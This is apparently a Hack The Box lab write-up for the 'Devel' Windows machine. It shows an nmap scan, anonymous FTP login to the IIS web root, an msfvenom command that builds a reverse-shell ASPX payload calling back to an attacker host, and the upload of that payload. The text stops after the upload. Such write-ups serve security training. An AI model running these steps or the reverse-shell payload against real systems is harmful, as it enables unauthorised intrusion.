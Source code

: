 ```yaml
---
layout: post
title: Devel(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.5
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:400px;width:800px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.5
  
<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-18 15:47 EST
<br>Nmap scan report for 10.10.10.5
<br>Host is up (0.22s latency).
<br>Not shown: 998 filtered ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">21/tcp</font> open  ftp     Microsoft ftpd
<br>| ftp-anon: <font color="53E100">Anonymous FTP login allowed</font> (FTP code 230)
<br>| 03-18-17  01:06AM                  aspnet_client
<br>| 03-17-17  04:37PM                  689 iisstart.htm
<br>|_03-17-17  04:37PM               184946 welcome.png
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">Microsoft IIS httpd 7.5</font>
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE
<br>|_http-server-header: <font color="53E100">Microsoft-IIS/7.5</font>
<br>|_http-title: IIS7
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone|specialized
<br>Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|8.1|7|Vista|2012 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
<br>Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Embedded Standard 7 (91%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>TRACEROUTE (using port 21/tcp)
<br>HOP RTT       ADDRESS
<br>1   283.76 ms 10.10.14.1
<br>2   283.90 ms 10.10.10.5

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 55.06 seconds</p>
</div>
</font>

Anonymous login in FTP is allowed, which means we can loggin to the FTP server with {_**anonymous**_} as a username and password.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># ftp 10.10.10.5
<br>Connected to 10.10.10.5.
<br>220 Microsoft FTP Service
<br>Name (10.10.10.5:root): anonymous
<br>331 Anonymous access allowed, send identity (e-mail name) as password.
<br>Password:
<br>230 User logged in.
<br>Remote system type is Windows_NT.
<br><font color="BB69EC">ftp</font>> ls
<br>200 PORT command successful.
<br>125 Data connection already open; Transfer starting.
<br>03-18-17  01:06AM                      <font color="53E100">aspnet_client</font>
<br>03-17-17  04:37PM                  689 <font color="53E100">iisstart.htm</font>
<br>03-17-17  04:37PM               184946 <font color="53E100">welcome.png</font>
<br>226 Transfer complete.
<br><font color="BB69EC">ftp</font>></p> 
</div>
</font>
Looks like we got the access to the Web-Directory of the server using FTP, So now we will generate our payload using _**msfvenom**_ , As the target server is using IIS 7 so we will need to generate the payload with the extension of (_**.aspx**_).
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># msfvenom -p windows/shell_reverse_tcp LHOST=10.10.*.* LPORT=4455 -b "\x00" -f aspx > teck.aspx
<br>No platform was selected, choosing Msf::Module::Platform::Windows from the payload
<br>No Arch selected, selecting Arch: x86 from the payload
<br>Found 10 compatible encoders
<br>Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
<br>x86/shikata_ga_nai succeeded with size 351 (iteration=0)
<br>x86/shikata_ga_nai chosen with final size 351
<br>Payload size: 351 bytes
<br>Final size of aspx file: 2870 bytes
<font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>
Now upload our generated payload into the FTPServer
<font size="1">
<div style="height:150px;width:400px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="BB69EC">ftp</font>> put teck.aspx 
<br>local: teck.aspx remote: teck.aspx
<br>200 PORT command successful.
<br>125 Data connection already open; Transfer starting.
<br>226 Transfer complete.
<br>2907 bytes sent in 0.00 secs (12.1593 MB/s)
<br><font color="BB69EC">ftp</font>> ls
<br>200 PORT command successful.
<br>125 Data connection already open; Transfer starting.
<br>03-18-17  01:06AM                      aspnet_client
<br>03-17-17  04:37PM                  689 iisstart.htm
<br>12-22-17  07:35AM                 2907 <font color="53E100">teck.aspx</font>
<br>03-17-17  04:37PM               184946 welcome.png
<br>226 Transfer complete.
<br><font color="BB69EC">ftp</font>></p>
</div>
</font>
